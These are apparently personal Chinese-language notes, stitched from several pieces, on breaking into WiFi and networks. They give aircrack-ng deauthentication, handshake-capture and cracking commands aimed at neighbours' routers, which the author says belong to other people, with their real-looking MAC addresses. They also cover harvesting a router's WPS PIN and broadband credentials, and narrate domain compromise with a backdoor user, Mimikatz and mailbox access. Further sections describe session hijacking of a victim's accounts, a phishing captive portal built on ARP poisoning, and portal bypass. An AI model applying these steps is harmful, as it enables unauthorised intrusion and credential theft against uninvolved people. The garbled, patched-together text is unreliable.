        -b 后面是 路由器Mac地址.
        -w 后面是 字典路径



❤️ 密码字典

    重点的重点就是字典! 字典里面有对方密码. 就能找出那个密码.

    好的密码字典一个，应包含常见的弱密码、手机号、姓名生日组合、各大网站泄露的密码、英语单词等等。
    如果使用字典破解不了，说明密码还算复杂；暴力穷举更是费时费力。（论复杂密码的重要性）。

    淘宝好像有跑字典服务???
    用GPU跑字典. 快很多很多..

⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️---字典破解实战---⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️
 之前是自己的路由器来试验.下面来试试别人的路由器.
 用密码字典来暴力破解成功率最主要就是看你的字典. 还有就是对方密码复杂度..
 没事别用这个.... 成功率低!!!

🔵 airmon-ng start wlan0   ➜ 进入监听模式 

🔵 airodump-ng wlan0mon    ➜ Kali 查看周围 wifi

    CH  1 ][ Elapsed: 12 s ][ 2017-04-26 07:48

    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

    8C:A6:DF:DE:5E:0C  -84        2        0    0   6  54e. WPA2 CCMP   PSK  TP-LINK_5E0C
    BC:5F:F6:0A:F6:68  -88        2        0    0   6  54e. WPA2 CCMP   PSK  MERCURY_F668
    1C:60:DE:AE:DB:BE  -90        1        0    0   6  54e. WPA2 CCMP   PSK  MERCURY_DBBE302
    F0:B4:29:21:07:A5  -90        2        0    0  11  54e  WPA2 CCMP   PSK  G-family
    6C:B0:CE:BD:D1:5B  -27       14        0    0   3  54e  WPA2 CCMP   PSK  219
    E4:F3:F5:83:CF:00  -67       12       10    0  12  54e  WPA2 CCMP   PSK  MERCURY_CF00
    C8:3A:35:FD:E1:98  -69       14        0    0   9  54e  WPA2 CCMP   PSK  Tenda_FDE198
    00:6B:8E:51:93:E4  -68        3        0    0   1  54e  WPA2 CCMP   PSK  PHICOMM_5193E4
    E4:D3:32:B4:83:BC  -73       12        0    0  11  54e. WPA2 CCMP   PSK  MERCURY_210
    30:FC:68:47:C0:42  -77        8        0    0  11  54e. WPA2 CCMP   PSK  顿�.��.海�.�
    B8:F8:83:ED:CF:9B  -70       10        0    0  11  54e. WPA2 CCMP   PSK  TP-LINK_CF9B
    18:44:E6:73:CA:CF  -75        9        0    0   2  54e  WPA2 CCMP   PSK  ChinaNet-VTka
    CC:81:DA:12:0A:18  -72       11        0    0   4  54e  WPA2 CCMP   PSK  @PHICOMM_10
    30:FC:68:3D:58:92  -75        8        0    0   6  54e. WPA2 CCMP   PSK  �.��..�.�.你�.�.�.�
    14:75:90:08:4D:5E  -79        5        0    0   6  54e. WPA2 CCMP   PSK  lys
    CC:2D:21:2F:FF:40  -79        7        0    0  11  54e  WPA2 CCMP   PSK  Tenda_2FFF40
    42:FC:68:3D:58:92  -75        5        0    0   6  54e. WPA2 CCMP   PSK  �..�..你�.�.�.�.
    00:6B:8E:E0:8F:58  -81        5        0    0   9  54e  WPA2 CCMP   PSK  MYY520MYY
    E4:F3:F5:9A:EF:B0  -81        3        0    0  13  54e  WPA2 CCMP   PSK  MERCURY_EFB0
    5C:63:BF:FE:8A:B8  -81        2        0    0   9  54e. WPA2 CCMP   PSK  ChinaNet-8AB8
    D8:C8:E9:32:07:00  -81        5        0    0  13  54e. WPA2 CCMP   PSK  KEDU
    D8:49:0B:A7:47:F0  -81        5        0    0   2  54e  WPA2 CCMP   PSK  ChinaNet-Ccfr
    00:13:10:79:D4:9F  -77        6        0    0   6  54   WPA2 CCMP   PSK  linksys
    00:19:D0:24:92:1B  -84        4        0    0   4  54e. WPA2 CCMP   PSK  ChinaNGB-Cactus
    BC:46:99:C2:24:FC  -82        3        0    0   1  54e. WPA2 CCMP   PSK  HLZJ-807
    BC:46:99:73:D9:DA  -82        3        0    0   1  54e. WPA2 CCMP   PSK  TP-LINK_D9DA
    7C:08:D9:DB:2C:CA  -83        2        0    0   1  54e. WPA2 CCMP   PSK  ChinaNGB-602
    74:C3:30:07:DD:FE  -83        3        1    0  13  54e  WPA2 CCMP   PSK  huatuoyangsheng
    30:FC:68:8D:00:76  -83        1        0    0   1  54e. WPA2 CCMP   PSK  onshine
    E0:28:61:81:FA:20  -87        2        0    0  11  54e  WPA2 CCMP   PSK  ChinaNet-UXjM
    8C:F2:28:E1:D8:D6  -86        4        0    0   6  54e. WPA2 CCMP   PSK  MERCURY_D8D6
    08:3F:BC:B0:B1:ED  -86        2        0    0   4  54e  WPA2 CCMP   PSK  ChinaNet-V7Su
    50:BD:5F:B5:01:C8  -87        2        0    0   1  54e. WPA2 CCMP   PSK  You Know Who 233
    8C:A6:DF:DD:69:9C  -88        3        0    0   6  54e. WPA2 CCMP   PSK  TP-LINK_699C
    54:BE:53:5A:B9:47  -87        2        0    0   5  54e  WPA2 CCMP   PSK  ChinaNet-6xkb
    C8:3A:35:58:95:48  -88        2        0    0   8  54e  WPA2 CCMP   PSK  Tenda_589548
    FC:10:C6:99:54:4B  -88        4        0    0   3  54e  WPA2 CCMP   PSK  ChinaNet-ZgbL
    F4:B8:A7:6C:34:BC  -87        3        0    0   6  54e  WPA2 CCMP   PSK  ChinaNet-TA5N
    30:D1:7E:AA:72:AC  -91        3        0    0   3  54e  WPA2 CCMP   PSK  ChinaNet-Ja2c
    44:F4:36:5D:A2:6F  -91        1        0    0   8  54e  WPA2 CCMP   PSK  ChinaNet-jdwR
    C8:3A:35:40:B9:08  -92        0        0    0   8  54e  WPA2 CCMP   PSK  Tenda_40B908



    🔵 MERCURY_210    E4:D3:32:B4:83:BC  CH 11 👹 不在字典里....

      🔸 抓包并查看连接设备:
      airodump-ng -c 11 --bssid E4:D3:32:B4:83:BC -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a E4:D3:32:B4:83:BC -c 74:E5:43:06:24:D2 wlan0mon
      aireplay-ng -0 2 -a E4:D3:32:B4:83:BC -c C0:9F:05:FB:1F:A1 wlan0mon

      🔸rockyou字典中无密码: ..
      sudo aircrack-ng -a2 -b E4:D3:32:B4:83:BC -w /usr/share/wordlists/rockyou.txt /root/-15.cap


    🔵 TP-LINK_CF9B B8:F8:83:ED:CF:9B  11    👹 不在字典里....

    🔸 抓包并查看连接设备:
        airodump-ng -c 11 --bssid B8:F8:83:ED:CF:9B -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a B8:F8:83:ED:CF:9B -c 40:40:A7:B2:26:41 wlan0mon

      🔸rockyou
      sudo aircrack-ng -a2 -b B8:F8:83:ED:CF:9B -w /usr/share/wordlists/rockyou.txt /root/-21.cap


    🔵 别看了，你连不上的 30:fc:68:3d:58:92  6  👹 不在字典中

      airodump-ng -c 6 --bssid 30:fc:68:3d:58:92 -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a 30:FC:68:3D:58:92 -c 8C:18:D9:5B:A3:DB wlan0mon
    
      🔸rockyou字典
      sudo aircrack-ng -a2 -b 30:fc:68:3d:58:92 -w /usr/share/wordlists/rockyou.txt /root/-17.cap



    🔵 顿�.��.海�.�    30:FC:68:47:C0:42 6     👹 无握手包..

    airodump-ng -c 6 --bssid 30:FC:68:47:C0:42 -w ~/ wlan0mon

    🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a 30:FC:68:47:C0:42 -c 54:4E:90:C2:97:C3 wlan0mon
      aireplay-ng -0 2 -a 30:FC:68:47:C0:42 -c FC:1A:11:69:25:7E wlan0mon



    🔵 MERCURY_EFB0   E4:F3:F5:9A:EF:B0 13    👹 无握手包..
    airodump-ng -c 13 --bssid E4:F3:F5:9A:EF:B0 -w ~/ wlan0mon

    🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a E4:F3:F5:9A:EF:B0 -c F4:8B:32:09:25:91 wlan0mon
      aireplay-ng -0 2 -a E4:F3:F5:9A:EF:B0 -c 6C:5C:14:DD:5F:DB wlan0mon


    🔵 再看你也连不上 42:fc:68:3d:58:92  6  👹 无握手包...
      airodump-ng -c 6 --bssid 42:FC:68:3D:58:92 -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a 42:FC:68:3D:58:92 -c 18:21:95:E6:35:D5 wlan0mon


    🔵 ChinaNet-VTka   18:44:E6:73:CA:CF  2     👹 无连接设备
      airodump-ng -c 6 --bssid 18:44:E6:73:CA:CF -w ~/ wlan0mon


    🔵 MERCURY_CF00   E4:F3:F5:83:CF:00  CH 12   👹 无握手包...

    🔸 抓包并查看连接设备:
      airodump-ng -c 12 --bssid E4:F3:F5:83:CF:00 -w ~/ wlan0mon

    🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a E4:F3:F5:83:CF:00 -c A8:7C:01:77:77:27 wlan0mon


    🔵 Tenda_FDE198 C8:3A:35:FD:E1:98    11    👹 无握手包.....

      airodump-ng -c 11 --bssid C8:3A:35:FD:E1:98 -w ~/ wlan0mon

      aireplay-ng -0 20 -a C8:3A:35:FD:E1:98 -c FC:E9:98:1F:B2:F1 wlan0mon


    🔵 TP-LINK_CF9B   B8:F8:83:ED:CF:9B  11     👹 无握手包..
      airodump-ng -c 11 --bssid B8:F8:83:ED:CF:9B -w ~/ wlan0mon

    aireplay-ng -0 20 -a B8:F8:83:ED:CF:9B -c B0:89:00:A3:CA:27 wlan0mon



    🔵 TP-LINK_5E0C  ❌        8C:A6:DF:DE:5E:0C  CH 6

      🔸 抓包并查看连接设备:
      airodump-ng -c 6 --bssid 8C:A6:DF:DE:5E:0C -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a 8C:A6:DF:DE:5E:0C -c 1C:77:F6:65:35:0C wlan0mon




    🔵 MERCURY_F668 ❌     BC:5F:F6:0A:F6:68  CH 6

      🔸 抓包并查看连接设备:
      airodump-ng -c 6 --bssid BC:5F:F6:0A:F6:68 -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a BC:5F:F6:0A:F6:68 -c 78:02:F8:AE:07:4B wlan0mon

      也没有抓到握手包...


    🔵 MERCURY_DBBE302 ❌   1C:60:DE:AE:DB:BE  CH6

      🔸 抓包并查看连接设备:
      airodump-ng -c 6 --bssid 1C:60:DE:AE:DB:BE -w ~/ wlan0mon
      .... 没设备连接...














⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️------⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

干坏或者不坏的事情前先修改MAC...

wifi 和 路由器密码都有了. 然后我们可以....

一记录下pin码，31070003 保证即使主人再改密码也不用再次破解。
二导出路由备份文件，可以查看宽带账户密码，记录下来有很多用处。


路由器 ➜ dhcp服务器 ➜ 客户端列表 ➜ 
1	android-3dce3ed3285596ab	1C-7B-23-13-73-DC	192.168.11.101	01:37:57
2	YH-20160915GEDS	74-E5-43-06-24-D2	192.168.11.102	01:34:53


🔵 端口扫描

root@kali:~# nmap 192.168.11.102

Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-06 00:00 EDT
Nmap scan report for 192.168.11.102
Host is up (0.020s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49160/tcp open  unknown
49163/tcp open  unknown
MAC Address: 74:E5:43:06:24:D2 (Liteon Technology)

Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds

分析:  
135:  
139: window 打印/文件 共享. smb 协议.
445: 也是文件共享 和139 一样的作用.











🔵 漏洞评估

    使用著名的工具，比如Nessus和Open VAs，来进行漏洞评估。
    在漏洞评估时，我们注意到这里面许多系统运行着过时的第三方软件和操作系统，这些容易成为被攻击的目标。这个过程会比较耗时，因为自动化工具发现的许多漏洞都是误报，所以有必要仔细评价这些漏洞。


    漏洞评估暴露出许多潜在的漏洞，其中之一便是MS09-050漏洞，我们接着会尝试利用这个漏洞。



🔵 漏洞利用

    我们将使用著名的Windows漏洞（MS09-050，SMBv2允许任意代码执行），可以在这里找到。这个机器明显长时间没有维护，所以没有打补丁。

    在经过多次尝试后，我们终于想办法成功利用了漏洞，得到了一个本地管理员权限的shell。


为了能够持久访问这个被攻破的系统，我们创建了一个后门用户，并将之添加到本地管理员组中。
现在我们可以使用后门用户登录这个系统，然后进一步枚举这个系统。




🔵 后渗透

现在我们进入了一个域系统，并且添加了一个后门用户。让我们对这个系统进行后渗透攻击（post-exploitation）。我们的目的是拿到这个系统本地administrator的密码，然后检查是否能够用这个凭证登录域内的其它系统。

Mimikatz是一个著名的工具，它可以从LSASS中获取明文密码。然而，目标系统运行了杀软，它封锁了Mimikatz。而且，这个杀软使用了密码保护，意味着我们不能禁用它，也不能在白名单中添加mimikatz。

所以，我们决定使用Meterpreter shell来获取密码hash。为了得到meterpreter shell。我们将会创建一个恶意的Meterpreter载荷，在我们的攻击机上运行一个handler。现在我们把恶意的Meterpreter载荷放到我们攻击机的web服务器上，在攻破的系统上使用浏览器访问这个文件。




🔵 提升权限

现在我们有了一个域系统的本地administrator凭证。下一步就是看能不能用这个凭证访问其它的系统。我们再次使用netscan查找使用本地administrator凭证登录的目标。

正如我们看到的，域中许多其它系统使用了相同的用户名和密码。这意味着我们已经成功攻破了域里面多个系统。

接着，我们使用本地administrator凭证登录这些系统，用Mimikatz从这些系统中获取明文口令。本地administrator密码可以解锁杀软，并且可以暂时禁用它。下面的截屏显示了mimikatz命令的输出。如此，我们想办法从这些受影响的系统中收集到了多个域用户的凭证。



🔵 提升至域管权限

最后一步是把我们的后门用户的权限提升至域管理员，控制整个域。

在上一步，我们获取了许多域用户。其中之一便是域管理员。我们使用这个凭证登录域控系统，把我们的后门用户添加到域中，然后提权让它成为域管。



🔵 访问高价值目标

现在我们成为了域管理员，我们将访问网络中高价值的目标，揭示攻击的严重性。

在信息收集阶段，我们发现了目标网络的邮件服务器。MS-Exchange 2013是用来管理邮件服务器的。这意味可用链接http://webmailip/ecp来访问Exchange管理中心。

我们使用域管的凭证登录Exchange管理中心。我们现在可以让自己作为任何用户的代表，访问他们的邮箱。这意味着我们能够访问目标网络中顶级主管的邮件。




🔵 结论

在这篇文章中，我们看到了一个完整的渗透测试周期，我们一开始对这个机构一无所知，后来想办法进入了它的网络，攻破了一个域系统，拿到了administrator的hash，在破解了这个hash之后，我们能够突破多个系统，最后突破了域控。为了持久访问，我们创建了一个后门用户，把它加入域管。并且为了证明攻击的严重性，我们完全控制了用户的邮箱。

一次黑盒渗透测试暴露了整个机构的真实的安全情况。它帮助机构理解攻击怎样发生，如果攻击成功，会对运营造成多坏的影响。因此，周期性的审计对一个机构来说是非常重要的。

从渗透测试者的角度看，黑盒渗透测试是一次挑战和练习。他不仅测试了你的知识，还测试了你在困难条件下创造性思考的能力。











劫持DNS. 
    进行DNS劫持后，被劫持者的上网记录和登陆过的账号以及明文传输的密码都很容易获得。
    现在很多社交工具的密码已经不再通过明文传输，而且自行搭建DNS服务器的操作较为复杂，
    我们考虑下一步直接进行会话劫持。



简易嗅探:

    如同很多“菜鸟黑客”一样，小黑想要挖掘出小白更多的秘密。

    这时，他使用了一款强大的网络渗透软件：dSploit。dSploit是一款基于Android系统的功能十分全面强大的网络渗透工具，可以提供给网络安全工作人员检查网络的安全性。小黑这次主要使用了其中的“简易嗅探”“会话劫持”“脚本注入”这三个功能。

    经过对台式电脑的“简易嗅探”，小黑很轻松地得到了小白的QQ号：
    既然得到了QQ号，也就很轻松地依据QQ号，搜索到了小白的微信号。


    通过“简易嗅探”这个功能，小黑不仅掌握了小白的很多社交网站的账号，并且熟悉了小白经常浏览的一些网站，对于其使用电脑的习惯有了一个大致的轮廓：小白是一名沉迷于大菠萝3等网游中的单身青年，如同中国绝大多数网民一样，小白使用腾讯的社交软件和360的安全软件。偶尔喜欢用淘宝和京东购物，喜欢购买各种手办和模型，最近希望给自己添置一台笔记本电脑。并且由于小白是单身，因此频繁浏览某相亲网站，积极寻找对象。












会话劫持:

    “会话劫持”功能，顾名思义，就是可以将小白电脑上正在进行的操作劫持到自己的设备中，使得小黑在自己的手机上远程控制着小黑的台式机上的应用，而小白对这一切毫不知情。以邮箱为例，小黑可以在小白的邮箱中做任意的操作，如收发邮件等等。而且，由于小白的邮箱中存有之前找工作时投递的简历，因此小白的姓名，住址，生日，职业，手机号，身份证号，银行卡号，收入等敏感信息也都尽收小黑眼底了。

    同样的道理，小白登陆过的微博、人人、淘宝等帐号也都全部可以劫持，通过劫持后的帐号又能看到许多表面看不到的东西。

    如果要进一步攻击，小黑完全可以在小白电脑中再植入一个木马，通过键盘记录，可以很轻松地得到小白的很多账号密码甚至网银信息。不过，此时的小黑异常冷静，他知道自己的攻击目标已经达成，因此决定金盆洗手，并且决定通过一个善意的提醒，建议小白修改Wi-Fi密码，给这次渗透攻击的行动，划上一个完美的句号。

    这是通过dSploit的 “脚本注入”功能来实现的：小黑将事先编辑好的一段文字，通过Java脚本的形式，推送到小白的台式电脑上：


    此时的小白，正在淘宝上兴致勃勃地翻看手办模型，当他正准备打开一张商品大图详细观摩时，突然发现了这段文字：









我们在目标公司附近发现存在两个无线网络，经过确认一个是开放式的WiFi，通过Portal进行认证；另一个则是802.1X网络。我们来分别进行检测。



在连上这个开放式热点后，跳转到了Portal认证页面。

很快我们就发现了一个很普遍的“漏洞”，通过Portal登录返回信息,可以判断用户名是否存在。
根据他们的测试规则，可以看到用户名为姓名全拼。通过使用中国人姓名top1000，利用burp进行了爆破，抓取了一批存在的用户。我们利用这些存在的用户进行暴力破解。


可以从上图看到，对爆破做了限制,但是可以使用“多用户名，单密码”这样的策略，不会触发他们规则。很快获取到了一个账户密码，登录成功。有很多的Portal的ACL有问题，接入Portal直接分配到的IP可以访问内网的资源(对于对渗透人来说，能不能上网不关注，我只需要能接入你的内网就行了)，如果存在这种情况，就不用非得获取Portal的用户名密码。

经过分析发现，这个网络与企业的办公网络隔离，大致是提供给员工进行日常上网用的。对于这次的渗透目的来说，此网段并不能接触到我们的目标。我们将目光看向另一个无线网络，这个WiFi使用的是802.1x认证







🔵 Zabbix

Zabbix是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案，
常见的漏洞有弱口令(admin Zabbix)、CVE-2013-5743等。

为什么说Zabbix我最喜欢呢，因为Zabbix在后台中可自定义脚本，执行命令(自身包含agent都可)。
Zabbix就像一个网吧的网管工具，通过它可以向客户端发送任何指令并执行，以黑客的角度来讲，这就是一个超级后门。
所以，在网段隔离的情况下，只要能搞定Zabbix，几乎就意味着拿下大批机器。


在利用私钥登录的某台机器上便发现存在Zabbix，在配置文件中找到了Zabbix的server地址，这时候任务转变为寻找Zabbix的账户密码。我们通过收集之前拿下多台机器的history中的信息，对Zabbix进行账号猜解，最终进入了Zabbix。（这里为了避免泄漏敏感信息，放上个来源网络的图）
















⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️------⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️
免费使用公共wifi

如今越来越多的商场、咖啡店、饭店等公共场所都提供了开放的WiFi网络。不过有时即便我们的设备连上了WiFi，当随便打开一个网页就会立即弹出身份验证页面……是不是很郁闷？藉此新春佳节，小编将向大家分享几种绕过常见WiFi身份验证的方法，祝各位过个开心年。


需要身份认证的WiFi

这是一种开放的WiFi网络。在真正使用该网络之前，当访问任意网页时，通常你会遇到一个强制的身份认证的页面——只有在你输入了正确的用户名和密码之后才能开始使用该网络。

在我们的日常生活中，你可以发现各种强制身份认证页面，例如在麦当劳、医院、机场、公园等等。


Hack it！

首先你需要注意的是，既然是开放WiFi网络，那么你可以毫不费力地连接上它。不过这种WiFi会利用身份验证来限制合法用户上网。通常这种方式是为了防止网络被滥用，例如：防止人们下载色情内容，利用该网络进行非法活动等。

可不管怎样，当我们连上了，我们就可以扫描网络中所有主机并嗅探他们的通信流量。

绕过热点身份验证常用方法主要有以下几种，下面我们将逐一进行介绍。



1、MAC地址伪造法

    开放网络的身份验证通常是通过将你的上网设备的MAC地址同你的上网凭证（例如账号、密码）联系在一起来实现。

    然而，因为任何设备的MAC地址都很容易修改，例如笔记本电脑、智能手机等设备。所以这种验证方法并不是一种强健的或者安全的身份验证方法。

    我们首先要做的就是扫描整个网络，寻找其他已经连接上该网络的客户端。而实现该目的最快的方式是，利用ARP扫描技术，它会提供给我们一个包含所有已连接设备的IP地址和MAC地址的完整ARP表。

    现在，我们可以用上图中的MAC地址一个一个地尝试，以此来查看对应的客户端是否已经通过身份验证。

    为了提高查看的速度，我们可以尝试以下方法：
    1、检测这些设备是否能够产生通信流量。
    2、如果产生了流量，那么就拦截该流量并查看是否是上网的网络流量。

    有时这类WiFi对一个用户只提供一定时间或流量的免费服务。在这种情况下，一旦服务过期，我们可以通过随机修改MAC地址来继续享受该网络服务。




2、伪造认证页面

    这种方式类似于“钓鱼”：我们创建一个伪造身份认证页面，迫使正常用户登录该页面进行身份验证，然后我们就可以盗取他们的上网凭证。

    正如我之前所写，开放WiFi网络的所有流量都是未经加密的明文数据，所以我们可以拦截并篡改网络流量，做任何我们想做的事情。虽然有时认证页面是通过HTTPS连接，但是它们几乎所有时候都使用同一个定制的证书。

    为了建立一个假的认证门户，我们不得不下载原来真正的认证页面。你可以使用任何你喜欢的工具来下载，然后编辑该门户网站来存储用户输入的上网凭证信息。一旦我们保存了这些信息，我们应该将用户请求信息转发到原始真正的认证页面中进行身份认证。

    但是问题来了，我们该如何迫使用户登录我们伪造的认证门户，而不是原来真正的那个呢？

    最简单的方法是对所有客户端发起一次ARP中毒攻击，通知上网设备认证门户的MAC地址现在变成了我们自己的MAC地址。

    我们上搭建一个Web服务器，然后在上面做一个假的认证页面。至此工作完成，我们只要坐等用户名和密码就行啦。




3、利用“忘记密码”

这种方法很简单，一些带身份验证的WiFi热点会在你忘记密码的时候提供重置密码服务。

通常，这种服务通过你的手机号码来实现，会向你填入的手机号码上发送新密码。然而，也有很多时候是通过电子邮件发送新密码。

如果是这种情况，那么很可能他们会允许你连接你的邮件客户端到你的IMAP/POP邮件服务器，这意味着此时你可以免费使用他们的网络查看你的邮箱。更普遍的是，他们通常不会检查你所产生的流量是否真的是IMAP或POP流量（主要因为流量加密了）！

所以你可以在你的VPS上以端口号995或993搭建一个SSH服务器，这两个端口分别是POP3和IMAP加密流量默认的端口号。因此你完全可以创建一个SSH隧道来代理你的网络浏览。


4、DNS隧道方法

大多数时候，WiFi热点会允许你进行DNS查询，它们一般使用自己的DNS服务器，同时很多时候他们也允许你查询外部DNS服务器。

创建于几年前的一个比较有趣的项目“Iodine”就是一款有关DNS隧道的软件。使用该软件，你可以使用DNS协议创建一个连接到你的服务器上的隧道，然后利用它上网。

这多少有点类似于你用VPN连接到你办公室的网络。一旦你创建了该隧道，你可以再次设置一个代理，通过SSH隧道连接到你的服务器，这样你就可以得到一个加密的安全通道来上网。

不过，为了使用DNS隧道服务，还需要满足另一个要求，即你必须拥有一个域名或者能够使用一些动态DNS提供商的子域名。
























⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️------⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️
wifi 破解2 . 之前的wifi 有时候会断...  莫名其妙的..  再破解一个..

🔵 ios 查看万能钥匙密码

tplink 云功能... 

如果，你的tp link路由器登录界面只有一个登录密码的文本框，那么这个型号的路由器就是没有默认密码的，因为在第一次设置的时候，就需要自己设置一个登录密码。如果这个时候记不起来登录密码，只能是重置路由器了。












⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️------⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️
3070+6649 

Mac 安装3070网卡驱动:

参考文章1:  https://www.tonymacx86.com/threads/guide-installation-of-usb-wireless-antenna-chipset-rt2870-rt3070-in-mac-os-x-10-11-x-el-capitan.183175/
参考文章2:  http://www.xuenb.com/os/1486906623102251.html


下载 BearExtender 5.4              管理wifi的.
下载 EasyKext Utility              安装驱动的.
下载 RT2870USBWirelessDriver.kext  实际驱动


Installation (software)
1) Remove workaround first - RESTART
2) Remove old files - RESTART
如果之前没有安装过 BearExtender 那么可以跳过上面两步.

3) Install 5.4 (BearExtender) - DONT RESTART YET!
安装好后 不要点重启. 先把网卡插上.安装驱动后再重启.
4) Connect the USB Wireless Antenna


Installation (driver)
5) Run EasyKext Utility
6) Drag RT2870USBWirelessDriver.kext to it - RESTART

现在开机就出来个 无线管理界面. 选择一个就可以了!!!


下面来测试


3070 Mac 驱动.

用 bearextender 5.4 来安装驱动.
https://store.bearextender.com/pages/regarding-yosemite-compatiblity






⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️------⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️



🔵 MAC抓 IOS 万能钥匙 里面的密码!

	❗️❗️❗️ 要抓iphone上的数据包 稍微有点不同 ❗️❗️❗️
	❗️❗️❗️ 要抓iphone上的数据包 稍微有点不同 ❗️❗️❗️
	❗️❗️❗️ 要抓iphone上的数据包 稍微有点不同 ❗️❗️❗️
	按之前的办法 只能抓到 毫无作用的 mdns包. 根本没有ftp/tcp等等包.
	最佳方式: 用 rvictl命令.  需要安装 xcode!!!

	1、手机通过usb线连接到PC

	2、查看手机的UDID(设备唯一标识码): http://www.jianshu.com/p/20dbffe6a45d

	3. 终端去建立连接:		rvictl -s aff56c5351843780baa88d00237ea275d0639e5d
          Starting device aff56c5351843780baa88d00237ea275d0639e5d [SUCCEEDED] with interface rvi0

          这样，PC上就多了一个虚拟的端口rvi0
          现在 wireshark 可以选项里就多了一个rvi0网卡了!!!



下拉来说 怎么抓包.


先iphone 开启3g/4g 移动数据.  并给 wifi万能钥匙上网权限.
开始抓包.  选择一个有万能钥匙的wifi. 如果之前连过这个wifi 就手动忘记密码.
这样才能从 万能钥匙的数据库 重新获取 wifi密码..

开始连接wifi 到 成功连接wifi.  抓到 400+ 个包.  wifi 账户密码在哪..
初步过滤 not mdns && not icmp && not ipv6

程序和服务器通信 好像要先 
client hello
server hello
证书
传输数据.




先看wifi名字.linksys


首先查.. 万能钥匙的服务器ip.
打开万能钥匙上网. 抓数据包.  好像是 
106.75.60.77    
106.75.70.207
10.171.118.93




屏蔽了一个，屏蔽不了所有 APP ，你还不如直接过滤掉所有包含你 wifi 密码的请求（出口外网屏蔽掉，内网放行，应该不会影响日常使用）
Google Play 搜 Packet Capture ，手动找。
我记得有些路由器支持访客的临时密码哒。。。客人一走，关闭临时密码。。。这样更不用捣鼓。

屏蔽服务器也没用。 
密码输入过一次就记录在手机里，人家用你 WIFI 的时候无法分享。但是出去用其它网络的时候，还是可以分享记录过的 WIFI 。

深受其害，总是有同事装这个 app ，搞得公司 wifi 巨慢，说又不好说，唉


1)  首先将MAC电脑的以太网共享给airport，使iOS设备能够通过wifi连接

打开系统偏好设置，找到共享，选择internet共享，在右侧“通过以下方式将”选择以太网，“连接共享给其他电脑”选择airPort。

2)  打开paros ，设置paros的本地代理paros下载地址（http://www.parosproxy.org/）

在paros的tools－》options中选择local proxy，在Address 中输入AirPort的ip地址。输入端口8080。打开系统偏好设置，找到网络，选择左侧的AirPort，可以看到AirPort的地址为169.254.69.225，将该地址填入到上面提到的Address栏中。

3)  使用ios设备连接mac共享出来的网络：在iOS设备中，选择设置－》通用－》网络－》wifi，找到共享的网络，加入。然后在该网络的纤细内容中的http代理部分，选择手动，输入paros中设置的代理ip和端口。

4)  下面就可以使用paros来监控iOS设备的网络，我们打开Safiri，在paros中即可察看到网络的所有请求。







很明显，这几条黑色的包和它们下面的包，就是应用的请求和服务器的回应了。我们点击其中一条请求，看看它的请求格式：
看到没有？Full Request URI，就是请求的网址。双击它，在浏览器中打开，可以看到是一条json数据，哈哈，初步成功！

总结一下基本方法：让iPhone通过笔记本联网，然后使用Wireshark抓包，通过过滤器过滤抓到的包，找到请求地址，分析请求格式。over！


估计数据包被加密了..


network={
    ssid=
    key = 
    psk = 

}


...





对了 开发 IOS的app 是需要证书的. 所有数据从iphone app 到app服务器 应该是经过加密的....

怎么看数据是否被加密. md5 rsa 

数据的安全性至关重要，而仅仅用 POST 请求提交用户的隐私数据，还是不能完全解决安全问题。因此：我们经常会用到加密技术，比如说在登录的时候，我们会先把密码用 MD5 加密再传输给服务器 或者 直接对所有的参数进行加密再 POST 到服务器。



1.数据安全介绍

最基础的是我们发送网络请求时，使用get和post方式发送请求。两者具体区别就不做解释了，只是引出相关安全性问题

get：将参数暴露在外，（绝对不安全-->明文请求或者傻瓜式请求）。
post：将参数放到请求体body中，（相对于get比较安全-->但是我们可以很容易用一些软件截获请求数据。比如说Charles（青花瓷））
Charles（大部分app的数据来源都使用该工具来抓包，并做网络测试）

